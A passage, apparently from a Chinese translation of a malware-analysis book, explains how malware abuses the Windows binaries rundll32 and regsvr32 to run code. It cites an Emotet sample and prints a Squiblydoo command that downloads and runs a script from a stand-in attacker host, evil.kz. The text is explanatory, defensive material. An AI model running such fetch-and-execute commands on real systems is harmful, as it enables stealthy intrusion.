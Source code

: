 +   Windows 默认不包含但仍然非常常见的二进制文件。例如，PSExec 是一个用于系统管理的流行工具，ProcDump 是一个用于转储目标进程内存的工具。由于这些工具可能在攻击前的受害者环境中不存在，因此在调用之前可能需要将它们传输到受害者系统中。本书中不会进一步讨论这些工具。

让我们开始看看一些最常用的 LOLBins，用于代理执行。

##### <samp class="SANS_Futura_Std_Bold_Condensed_B_11">Rundll32</samp>

*Rundll32*，正如你在 Cobalt Strike 示例中看到的，是许多 Windows 应用程序用来执行 DLL 中代码的重要二进制文件。如果一个应用程序需要特定的 DLL，但并不直接加载它（例如，通过 <samp class="SANS_TheSansMonoCd_W5Regular_11">LoadLibrary</samp>），它可以调用 *rundll32.exe* 并执行一个特定的导出函数，方式如下：

```
C:\> rundll32.exe library.dll,ExportedFunction
```

如你所见，rundll32 接受两个参数：DLL 文件的名称和路径（在本例中是 *library.dll*），以及将被执行的导出函数（<samp class="SANS_TheSansMonoCd_W5Regular_11">ExportedFunction</samp>）。恶意软件也可以滥用 *rundll32.exe* 从恶意 DLL 执行代码：

```
C:\> rundll32.exe C:\Temp\evil.dll,EvilFunction
```

由于 rundll32 被 Windows 操作系统及其他各种无害进程频繁调用，它常常被用作恶意代码的代理进程。在 Cobalt Strike 的加载器示例中，它被启动并注入了 shellcode，然后用于托管和执行恶意代码。

##### <samp class="SANS_Futura_Std_Bold_Condensed_B_11">Regsvr32</samp>

*Regsvr32* 是一个可执行文件，用于注册和注销 DLL 模块。恶意软件可以利用 regsvr32 在 *regsvr32.exe* 签名二进制文件的上下文中执行恶意代码，甚至从远程服务器下载并执行恶意代码。

Emotet 恶意软件家族以在其攻击链中使用 LOLBins 而闻名。某个特定变种的 Emotet 的有效负载（<samp class="SANS_TheSansMonoCd_W5Regular_11">SHA256: d642109e621c6758027c2fc0e5ea3d1126963a001ab1858b95f82e09403943bd</samp>）是通过恶意的 Microsoft Excel 文档传送的，这些文档会下载多个有效负载和模块，并随后通过 *regsvr32.exe* 执行它们。图 15-3 是来自 Joe Sandbox 的截图，展示了这一攻击链。

![](img/fig15-3.jpg)

<samp class="SANS_Futura_Std_Book_Oblique_I_11">图 15-3：在 Joe Sandbox 中显示的 Emotet 进程树</samp>

另一个值得注意的 regsvr32 使用示例是名为 Squiblydoo 的攻击，该攻击也利用了 Windows 脚本组件运行时 DLL *scrobj.dll*，该 DLL 通常用于执行本地 COM 脚本片段。通过结合 *regsvr32.exe* 和 *scrobj.dll* 的强大功能，Squiblydoo 恶意软件可以直接从互联网下载并执行恶意的 COM 脚本片段：

```
C:\> regsvr32.exe /s /i:http://evil.kz/script.sct C:\Windows\System32\scrobj.dll
```

该命令从 *http://<wbr>evil<wbr>.kz* 下载恶意脚本 *script.sct*，并随后通过 *scrobj.dll* 执行该脚本，所有操作都在 *regsvr32.exe* 的进程地址空间内进行，完全在内存中。更具体地说，<samp class="SANS_TheSansMonoCd_W5Regular_11">/s</samp> 开关告诉 *regsvr32.exe* 不向受害者显示消息（这是威胁行为者不希望出现的行为）。<samp class="SANS_TheSansMonoCd_W5Regular_11">/i</samp> 开关将以下字符串（<samp class="SANS_TheSansMonoCd_W5Regular_11">http://evile.kz</samp>...）传递给 *scrobj.dll* 中的 <samp class="SANS_TheSansMonoCd_W5Regular_11">DllInstall</samp> 函数。

